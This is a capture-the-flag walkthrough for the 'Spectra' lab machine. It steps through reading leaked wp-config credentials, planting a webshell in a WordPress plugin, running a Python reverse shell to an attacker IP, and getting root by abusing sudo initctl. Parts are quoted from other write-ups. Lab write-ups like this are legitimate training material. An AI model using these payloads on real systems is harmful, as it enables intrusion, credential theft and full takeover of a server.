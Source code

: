 1, enumerate the ports and services
22/tcp ssh
80/tcp http `nginx 1.17.4`
3306/tcp mysql `MySQL (unauthorized)`

2, check the pages and services
port 3306 (mysql)
```
mysql -h 10.10.10.229

ERROR 2002 (HY000): Received error packet before completion of TLS handshake. The authenticity of the following error cannot be verified: 1130 - Host '10.10.14.65' is not allowed to connect to this MySQL server

```

port 80 (http), it is powered by `WordPress 5.4.2` and this service is separated into 2 part `\test` and `\main`.separate

We can find `http://spectra.htb/main/wp-login.php` from `\main` but we don't have any credients.

Let's check `\testing`, then it would redirect to `\testing\index.php`

But if we just check `\testing`, we would get the File Directory
![[Pasted image 20240901110425.png]]

Then we can just check some interesting files.
`\wp-config.php` and `\wp-config.php.save` would be useful.

```
In some cases nano will try to dump the buffer into an emergency file. This will happen mainly if nano receives a SIGHUP or SIGTERM or runs out of memory. It will write the buffer into a file named nano.save if the buffer didn’t have a name already, or will add a “.save” suffix to the current filename. If an emergency file with that name already exists in the current directory, it will add “.save” plus a number (e.g. “.save.1”) to the current filename in order to make it unique. In multibuffer mode, nano will write all the open buffers to their respective emergency files.
```

Clicking on it returns a blank page, but viewing the source (Ctrl-u, or fetching the page with curl) gives the text:
```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );
/** MySQL database username */
define( 'DB_USER', 'devtest' );
/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );
/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```
Then we get the database credit `devtest:devteam01`

Let's try to connect to the database, but very sadly we could not connect it even through we have the credit.

Let's come to the page of website, 
![[Pasted image 20240901111439.png]]

we can guess `# Author: administrator`

Let's try this username, but `devtest:devteam01` is not correct 
but `administrator:devteam01` is  correct and we successfully login to the dashboard.
Firstly let's check the versions of plugins
```
# Plugins
WordPress 5.4.2:
**Akismet Anti-Spam** Version 4.1.5
**Hello Dolly** Version 1.7.2
```

Theme Edit - Fail 
There are many ways to try to go from admin login on WP to code execution. The first one I tried was to edit a theme to include a webshell. Under Appearance -> Theme Editor I get access to all the theme pages. I loaded 404 Template, and added a check to the top of the page:
![[Pasted image 20240901112411.png]]

When I save this, I can go to /main/wp-content/themes/twentytwenty/404.php to trigger it. However, when I try to save, it fails:
![[Pasted image 20240901112432.png]]

This is a protection put in place to stop people from doing exactly what I’m trying to do.

Edit Existing Plugin:
On the Plugins tab, there are two existing plugins:
![[Pasted image 20240901112658.png]]

I’ll click on the Plugin Editor (in the menu on the left), and it takes me to the editor with Akismet Anti-Spam loaded and akismet.php in the editor:
![[Pasted image 20240901112711.png]]

I can find this plugin at `[WP root]/wp-content/plugins/[plugin name]/[filename]`:

`curl http://spectra.htb/main/wp-content/plugins/akismet/akismet.php`

I’ll add a bit of code at the top to make it a webshell only if the parameter 0xdf is there:
![[Pasted image 20240901113922.png]]

`curl http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?0xdf=id`

Shell
With either webshell, getting a shell is as simple as passing it a reverse shell. I like to use curl so it’s repeatable.
It doesn’t look like nc is on the host, so that eliminates several command reverse shells. I got the Python one to work:
```
curl http://spectra.htb/main/wp-content/plugins/wither/wither.php --data-urlencode "0xdf=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.65\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```

Then I’ll upgrade my shell:
`python -c 'import pty;pty.spawn("bash")'`

Then let's enumerate the database:
There is a tricky thing, our before credit is not useful in this time, so we need to check the `wp-config.php` again:
```
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'dev' );

/** MySQL database password */
define( 'DB_PASSWORD', 'development01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

This time `dev:development01`
`administrator | $P$BNlisfpKSFVhrcykt03B/pidcUfNmL0`
I must say this would be rabbit hole, because it is our password before.

Let's check others:
/etc/lsb-release solves the mystery about the OS:
```
cat /etc/lsb-release 

GOOGLE_RELEASE=87.3.41
CHROMEOS_RELEASE_BRANCH_NUMBER=85
CHROMEOS_RELEASE_TRACK=stable-channel
CHROMEOS_RELEASE_KEYSET=devkeys
CHROMEOS_RELEASE_NAME=Chromium OS
CHROMEOS_AUSERVER=https://cloudready-free-update-server-2.neverware.com/update
CHROMEOS_RELEASE_BOARD=chromeover64
CHROMEOS_DEVSERVER=https://cloudready-free-update-server-2.neverware.com/
CHROMEOS_RELEASE_BUILD_NUMBER=13505
CHROMEOS_CANARY_APPID={90F229CE-83E2-4FAF-8479-E368A34938B1}
CHROMEOS_RELEASE_CHROME_MILESTONE=87
CHROMEOS_RELEASE_PATCH_NUMBER=2021_01_15_2352
CHROMEOS_RELEASE_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_BOARD_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_RELEASE_BUILD_TYPE=Developer Build - neverware
CHROMEOS_RELEASE_VERSION=87.3.41
CHROMEOS_RELEASE_DESCRIPTION=87.3.41 (Developer Build - neverware) stable-channel chromeover64
```

It’s Chrome! And there are users in `/home`
`chronos  katie  nginx  root  user`

There is a interesting file in /opt:
```
/opt/autologin.conf.orig

# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
```

This means there would be a password file in `/mnt/stateful_partition/etc/autologin /etc/autologin`
Then we get `SummerHereWeCome!!`

And check the `/etc/passwd` , we can get a username
`katie:x:20156:20157::/home/katie:/bin/bash` and we can use ssh to login the machine.

Continue check `sudo -l`
```
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

```
initctl is a command used in older Linux distributions that use the Upstart init system. Upstart was designed to handle starting of tasks and services during boot, stopping them during shutdown, and supervising them while the system is running. The initctl command allows you to interact with the Upstart init system, enabling you to start, stop, restart, and check the status of services.
```

```
As you can seen in figure 01 initctl own SUDO privileges. Usually initctl works with service configuration file located at /etc/init directory on linux servers. mmmmm. so What if we can inject malicious code into that services. Let’s try
```
![[Pasted image 20240901115650.png]]

And we can check current status of the services using list command via initctl.

Let’s try to inject a code which set SUID permission /bin/bash from that attack can takeover bash shell as root by modifying service “test” (which is customized service, does not come up as default job)
![[Pasted image 20240901120143.png]]

`sudo /sbin/initctl start test`

Then we can just `/bin/bash -p`
And we can as the root.

